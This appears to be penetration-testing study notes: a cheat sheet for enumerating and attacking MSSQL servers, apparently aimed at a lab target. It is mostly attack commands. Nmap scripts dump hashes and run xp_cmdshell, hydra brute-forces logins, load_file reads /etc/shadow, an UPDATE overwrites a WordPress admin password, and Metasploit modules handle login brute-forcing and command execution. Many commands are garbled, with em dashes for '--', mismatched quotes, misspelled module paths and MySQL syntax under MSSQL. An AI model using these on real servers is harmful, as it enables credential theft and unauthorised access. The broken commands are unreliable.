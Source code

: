 # **MSSSQL**

#### MSSQL Databases

MSSQL has default system databases that can help us understand the structure of all the databases that may be hosted on a target server. Here are the default databases and a brief description of each:

| Database | Description |
|----------|-------------|
| `master` | Tracks all system information for an SQL server instance. |
| `model` | Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database. |
| `msdb` | Used by the SQL Server Agent to schedule jobs and alerts. |
| `tempdb` | Stores temporary objects. |
| `resource` | Read-only database containing system objects included with SQL Server. |


--------------------------------------------------------------------
# Footprinting
### Nmap Scripts
```shell-session
$ sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```
```shell-session
nmap 0.0.0.0 -p 1433 —script ms-sql-info

nmap 0.0.0.0 -p 1433 —script ms-sql-info —script-args mssql-instance-port=1433

nmap 0.0.0.0 -p 1433 —script ms-sql-brute —script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt

nmap 0.0.0.0 -p 1433 —script ms-sql-empty-password

nmap 0.0.0.0 -p 1433 —script ms-sql-query —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query=”SELECT * FROM master..syslogins” -oN output.txt”

nmap 0.0.0.0 -p 1433 —script ms-sql-dump-hashes —script-args mssql.username=admin,mssql.password=anamaria

nmap 0.0.0.0 -p 1433 —script ms-sql-xp-cmdshell —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd=”ipconfig”
```

--------------------------------------------------------------------
### BRUTEFORCE

```
$ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 0.0.0.0 mssql
```

--------------------------------------------------------------------
### Useful SQL Commands

```
$ show databases;

$ use books;

$ select * from authors;

$ select load_file(”/etc/shadow”)

$ UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';

http://<TARGET-IP>/8585/wordpress/wp-admin
```

--------------------------------------------------------------------
#### Connecting with Mssqlclient.py

If we can guess or gain access to credentials, this allows us to remotely connect to the MSSQL server and start interacting with databases using T-SQL (`Transact-SQL`). Authenticating with MSSQL will enable us to interact directly with databases through the SQL Database Engine. From Pwnbox or a personal attack host, we can use Impacket's mssqlclient.py to connect as seen in the output below. Once connected to the server, it may be good to get a lay of the land and list the databases present on the system.

```shell-session
$ python3 mssqlclient.py Administrator@10.129.201.248 -windows-auth
```

--------------------------------------------------------------------
### Metasploit Modules
We can also use Metasploit to run an auxiliary scanner called `mssql_ping` that will scan the MSSQL service and provide helpful information in our footprinting process.
```shell-session
> auxiliary(scanner/mssql/mssql_ping)
```

```
- use auxiliary/scanner/mssql/mssql_login
> set user_file /root/Desktop/wordlist/common_users.txt
> set pass_file…

- use auxiliary/admin/ssql/ssql_enum

- use auxiliary/admin/ssql/ssql_enum_ssql_logins

- use auxiliary/admin/ssql/ssql_exec

- use auxiliary/admin/ssql/ssql_enum_domain_accounts
```



